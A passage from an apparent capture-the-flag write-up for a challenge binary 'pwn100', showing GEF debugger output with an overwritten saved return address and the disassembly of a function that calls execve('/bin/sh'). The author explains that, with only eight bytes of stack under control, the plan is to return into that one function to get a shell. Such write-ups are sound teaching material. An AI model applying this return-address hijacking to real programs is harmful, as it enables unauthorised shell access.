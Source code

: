 ```sh
 →   0x400a99 <do_main+189>    ret
[!] Cannot disassemble from $PC
──────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn100", stopped, reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400a99 → do_main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  info frame
Stack level 0, frame at 0x7ffcd7ad8d68:
 rip = 0x400a99 in do_main; saved rip = 0x4242424242424242
 called by frame at 0x7ffcd7ad8d78
 Arglist at 0x3b3a393837363534, args:
 Locals at 0x3b3a393837363534, Previous frame's sp is 0x7ffcd7ad8d70
 Saved registers:
  rip at 0x7ffcd7ad8d68
```

Unfortunately, I did not have control over more than eight bytes on the stack. If I tried to use a ROP chain with more than one gadget, it would only execute the first gadget and ignore all the others. This meant that I had to find a single function that would produce a shell for me. I looked around at what functions were inside of the binary, and I saw a function named `custom_features`. This function executes `execve("/bin/sh")`, which is exactly what I needed.

```sh
gef➤  info functions custom_features
All functions matching regular expression "custom_features":

Non-debugging symbols:
0x00000000004007f7  custom_features
gef➤  disas custom_features
Dump of assembler code for function custom_features:
   0x00000000004007f7 <+0>:     push   rbp
   0x00000000004007f8 <+1>:     mov    rbp,rsp
   0x00000000004007fb <+4>:     sub    rsp,0x10
   0x00000000004007ff <+8>:     lea    rax,[rip+0x362]        # 0x400b68
   0x0000000000400806 <+15>:    mov    QWORD PTR [rbp-0x10],rax
   0x000000000040080a <+19>:    mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000400812 <+27>:    lea    rax,[rbp-0x10]
   0x0000000000400816 <+31>:    mov    edx,0x0
   0x000000000040081b <+36>:    mov    rsi,rax
   0x000000000040081e <+39>:    lea    rdi,[rip+0x343]        # 0x400b68
   0x0000000000400825 <+46>:    call   0x4006c0 <execve@plt>
   0x000000000040082a <+51>:    nop
   0x000000000040082b <+52>:    leave
   0x000000000040082c <+53>:    ret
End of assembler dump.
gef➤  x/s 0x400b68
0x400b68:       "/bin/sh"
```
